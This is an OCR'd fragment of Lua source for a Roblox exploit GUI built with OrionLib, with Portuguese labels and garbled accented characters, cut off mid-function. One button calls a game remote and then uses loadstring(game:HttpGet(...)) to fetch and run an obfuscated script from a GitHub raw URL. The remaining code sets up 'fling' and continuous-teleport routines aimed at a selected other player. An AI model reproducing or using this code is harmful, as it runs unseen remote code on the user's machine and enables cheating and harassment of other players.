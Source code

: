 })

Tab:AddButton({

    Name = "Fling na Pessoa que Descer do Sofa (Sofa Automatico)",

    Callback = function()

        local args = {

    [1] = "PickingTools",

    [2] = "Couch"

}

 

game:GetService("ReplicatedStorage").RE:FindFirstChild("1Too1l"):InvokeServer(unpack(args))

loadstring(game:HttpGet(('https://raw.githubusercontent.com/0Ben1/fe/main/obf_5wpM7bBcOPspmX7lQ3m75SrYNWqxZ858ai3tJdEAId6jSI05IOUB224FQ0VSAswH.lua.txt'),true))()

    end

})

-- Iniciar a interface
OrionLib:Init()

-- VariÃƒÂ¡veis de controle
local teleporting = false
local flingEnabled = false
local viewEnabled = false
local selectedPlayer = nil
local flingSpeed = 9000  -- Aumentando a velocidade para um Fling mais forte

-- FunÃƒÂ§ÃƒÂ£o para teleporte contÃƒÂ­nuo
local function startTeleport()
    teleporting = true
    while teleporting do
        task.wait(0.05)

        local targetCharacter = selectedPlayer.Character
        if not targetCharacter then
            teleporting = false
            OrionLib:MakeNotification({
                Name = "Erro",
                Content = "Jogador invÃƒÂ¡lido ou nÃƒÂ£o carregado!",
                Time = 3
            })
            return
        end

        local targetHRP = targetCharacter:FindFirstChild("HumanoidRootPart")
        if not targetHRP then
            teleporting = false
            OrionLib:MakeNotification({
                Name = "Erro",
                Content = "HumanoidRootPart nÃƒÂ£o encontrado!",
                Time = 3
            })
            return
        end
